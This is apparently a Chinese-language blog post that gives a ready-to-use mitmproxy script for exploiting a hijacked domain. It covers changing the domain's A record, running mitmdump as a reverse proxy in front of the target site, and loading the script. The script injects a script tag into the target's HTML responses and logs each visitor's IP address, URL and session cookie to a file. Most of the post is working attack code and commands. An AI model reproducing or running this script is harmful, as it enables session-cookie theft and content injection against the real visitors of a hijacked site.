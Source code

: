 ```yaml
---
layout:     post
title:      域名劫持后利用脚本
date:       2018-05-29
summary:    域名劫持后利用脚本
categories: web
tags:
 - mitmproxy
 - mitmdump
---
```


### About

本文记录一种在域名劫持后通过mitmproxy进行http会话劫持的利用脚本,该脚本通过mitmdump的反向代理工作模式进行流量劫持.

### Usage

1.通过修改域名的A记录来进行域名劫持
2.在域名的新A记录主机上安装mitmproxy:`pip3 install mitmproxy`
3.在域名的新A记录主机上运行:
    `mitmdump —set allow_remote=true —listen-host 0.0.0.0 -s xdomain.py —mode reverse:http://xxx.xxx.xxx:80 -p 80`

```
—listen-host代表本地监听ip
—mode reverse代表以反向代理的模式进行工作
—set allow_remote=true代表支持客户端访问的时候是通过代理访问的
运行时需要需要上面命令中的http://xxx.xxx.xxx:80为目标网站地址,且修改下面代码中的http://xxx.xxx.xxx为目标网站地址
```

### Detail

```
import os
import re
import chardet


def request(flow):
    # url=flow.request.url
    # flow.request.headers['User-Agent']='xxx'
    pass


def response(flow):
    url = flow.request.url
    print(url)
    if "http://xxx.xxx.xxx" in url:
        content = flow.response.content
        cookie = flow.request.headers['Cookie']
        ip = str(flow.client_conn.ip_address).split(":")[0]
        bytes_encoding = chardet.detect(content)['encoding']
        origin_html = content.decode(encoding=bytes_encoding, errors="ignore")
        if "</html>" in origin_html:
            insert_xss = '''<script>alert("you're hacked")</script></html>'''
            new_html = origin_html.replace("</html>", insert_xss)
            flow.response.text = new_html
        return_value = {'ip': ip, 'url': url, 'cookie': cookie}
        with open("mitm.log", "a+") as f:
            f.write(str(return_value) + "\n")
```

[download][1]

[1]:
